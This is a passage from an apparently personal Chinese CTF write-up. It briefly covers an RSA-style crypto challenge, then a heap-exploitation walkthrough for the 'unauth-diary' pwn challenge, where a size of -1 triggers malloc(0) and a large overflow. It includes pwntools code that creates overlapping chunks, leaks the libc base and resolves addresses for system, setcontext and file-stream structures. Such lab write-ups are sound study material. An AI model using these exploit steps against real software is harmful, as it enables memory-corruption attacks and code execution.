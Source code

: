 ### 绮云

GCD算一下可以拿到N

e必定是奇数

拿N有概率是错的，后续的e和d就会算不出来

下播，算法都是对的，本地能拿到e，连靶机跑了有一个小时都没算出来一次正确的d

😭

## Pwn

### unauth-diary | FINISHED - 01

遇到了强如怪物的套接字通信,终于战胜了

![](https://seandictionary.top/wp-content/uploads/2025/03/image-88-1024x494.png)

我的虚拟机挂掉了十多次,为了调试这个套接字它已经燃尽了

这道题的漏点很隐蔽,一眼看下来add,free,edit和show都没有漏洞🤔

漏洞在add函数,实际malloc的大小是我们输入的大小再减1,而且没有对输入的大小做检查,那如果我们输入的大小为-1的话,最终可编辑长度就是-1==0xffffffffffffffff,malloc函数会执行malloc(0)

我一开始没搞清楚malloc(0)会返回个什么就一直在想别的办法,发现都走不通后才回来看malloc(0),在linux中malloc(0)会返回一枚指针但不返回chunk结构体(没见过这种非预期),所以既不会破坏其他chunk结构,又能申请一枚指针,且可以向其中输入-1字节,造成很大的堆溢出,以此造成堆块重叠

泄露libc与heap的基地址:

```
for i in range(4):
    add(0x10,b'01')
for i in range(4):
    free(i)
for i in range(7):
    add(0x3f0,b'01')
io.sendlineafter(b"> ",b"1")    #7
io.sendlineafter(b"Input length:\n",str(-1).encode())
io.sendline(b'')
for i in range(7):
    free(i)
add(0xf0,b'01')#0
add(0x2f0,b'01')#1
add(0x2f0,b'01')#2
add(0x2f0,b'01')#3
add(0x2f0,b'01')#4
#======================================================================================================================
edit(7,b'a'*0x10+p64(0)+p64(0x401))
free(0)
add(0xf0,b'01')#0
show(1)
io.recvuntil(b"Content:\n")
io.recv(8)
base=u64(io.recv(6)+b'\x00\x00')-0x203b20
success("base==>"+str(hex(base)))
stderr          =base+libc.sym['_IO_2_1_stderr_']
_IO_list_all    =base+libc.sym['_IO_list_all']
_IO_wfile_jumps =base+libc.sym['_IO_wfile_jumps']
system          =base+libc.sym['system']
rdi             =base+0x000000000010f75b
ret             =rdi+1
setcontext      =base+libc.sym['setcontext']+61
```
